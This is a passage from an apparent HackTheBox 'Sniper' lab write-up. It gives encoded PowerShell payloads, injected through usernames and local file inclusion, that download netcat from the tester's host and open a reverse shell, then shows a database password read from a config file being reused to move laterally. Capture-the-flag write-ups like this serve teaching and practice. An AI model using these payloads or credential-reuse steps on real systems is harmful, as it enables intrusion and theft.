 ```
bQBrAGQAaQByACAALwB0AG0AcAA7AGkAdwByACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAx
ADQALgA0ADAALwBuAGMALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgAC8AdABtAHAALwBuAGMA
LgBlAHgAZQAKAA==
```
The First payload becomes:
```
<?=`powershell /enc bQBrAGQAaQByACAALwB0AG0AcAA7AGkAdwByACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgA0ADAALwBuAGMALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgAC8AdABtAHAALwBuAGMALgBlAHgAZQAKAA==`?>
```

After creating a new user with the above payload, and using LFI to trigger execution of the session cookie, our `Netcat` binary is uploaded to the server. Next, create the second payload.
```
echo "/tmp/nc.exe 10.10.14.40 1234 -e powershell"| iconv -t UTF-16LE|base64

LwB0AG0AcAAvAG4AYwAuAGUAeABlACAAMQAwAC4AMQAwAC4AMQA0AC4ANAAwACAAMQAyADMANAAg
AC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwACgA=

```
Second payload:
```
<?=`powershell /enc LwB0AG0AcAAvAG4AYwAuAGUAeABlACAAMQAwAC4AMQAwAC4AMQA0AC4ANAAwACAAMQAyADMANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwACgA=`?>
```
Creating a user with the above payload and start the `netcat` listener `rlwarp ncat -lnvp 1234` . After logging i again and navigating to the session cookie, we'll receive a shell.

![](/assets/images/htb-writeup-sniper/rev-shell.png)

## Lateral Movement
Since the website provided a login functionality a good first step would be to check for any database credentials. Navigating to `C:\inetpub\wwwroot\user` we see a `db.php` file. Which contains `MySQL` database password `36mEAhz/B8xQ~2VM`.
```
PS C:\inetpub\wwwroot\user> more db.php
more db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```
The `net users` command reveals a user called `chris`.There's a chance that the password for the database has be re-used as his password.We can create a powershell credentials and check this.
```powershell
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM"
```